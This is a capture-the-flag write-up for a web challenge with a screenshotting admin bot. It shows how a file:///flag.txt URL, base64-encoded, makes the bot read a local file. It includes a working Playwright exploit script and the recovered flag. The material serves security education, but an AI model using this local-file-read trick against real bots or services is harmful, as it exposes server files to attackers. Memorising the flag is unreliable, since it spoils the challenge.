

### Analysis

In the UI, the `adminbot` action is described as:

```text
Have the adminbot visit a URL and screenshot it. URL must be base64.
```

This shows the `params.url` parameter must be the base64 of the URL the bot will visit.

If the bot does not block dangerous schemes such as `file://`, we can ask the bot to visit:

```text
file:///flag.txt
```

When the bot opens this file, the flag content is rendered in the headless browser. The `adminbot` action then returns a screenshot as a base64 image. We just need to extract the image and open it to read the flag.

### Exploitation

Since sending the secretpickle payload directly through the path can cause a `404` due to special characters in base64, a better way is to use the challenge's own frontend.

The frontend parses the query string itself, calls `secretpickle_dump()` itself, then POSTs the correctly formatted request to the server.

We use Playwright to open the frontend URL with the query:

```text
/?a=adminbot&params.url=<base64-url>
```

Script:

```python
#!/usr/bin/env python3
import base64
import re
from pathlib import Path
from urllib.parse import quote

from playwright.sync_api import sync_playwright, TimeoutError as PlaywrightTimeoutError

BASE = "https://deep-fried-tofu-over-charred-harissa-fbsq.gpn24.ctf.kitctf.de"

bot_url = "file:///flag.txt"
url_b64 = base64.b64encode(bot_url.encode()).decode()

targets = [
    f"{BASE}/?a=adminbot&params.url={quote(url_b64, safe='')}",
    f"{BASE}/?action=adminbot&params.url={quote(url_b64, safe='')}",
]

def extract_screenshot(html: str) -> bool:
    m = re.search(r"data:image/png;base64,([^\"']+)", html)
    if not m:
        return False

    Path("screenshot.png").write_bytes(base64.b64decode(m.group(1)))
    print("[+] saved screenshot.png")
    print("[+] open:")
    print("    explorer.exe screenshot.png")
    return True

with sync_playwright() as p:
    browser = p.chromium.launch(headless=True)

    for idx, target in enumerate(targets, 1):
        print(f"\n[+] trying target #{idx}:")
        print(target)

        page = browser.new_page()
        page.on("console", lambda msg: print("[console]", msg.type, msg.text))

        def on_dialog(dialog):
            print("[dialog]", dialog.type, dialog.message)
            dialog.accept()

        page.on("dialog", on_dialog)

        try:
            page.goto(target, wait_until="domcontentloaded", timeout=120000)

            try:
                page.wait_for_selector("img[src^='data:image/png;base64']", timeout=120000)
            except PlaywrightTimeoutError:
                print("[!] no screenshot img after timeout")

            html = page.content()
            text = page.locator("body").inner_text(timeout=5000)

            Path(f"debug_{idx}.html").write_text(html, encoding="utf-8")
            page.screenshot(path=f"debug_{idx}.png", full_page=True)

            print("[+] body text:")
            print(text[:3000])

            if extract_screenshot(html):
                browser.close()
                raise SystemExit(0)

        except Exception as e:
            print("[!] target failed:", repr(e))

        finally:
            page.close()

    browser.close()
```

Run the script:




```bash
open screenshot.png
```


### Flag

```text
GPNCTF{THE_PicK13r__PickL3_ME_This}
```
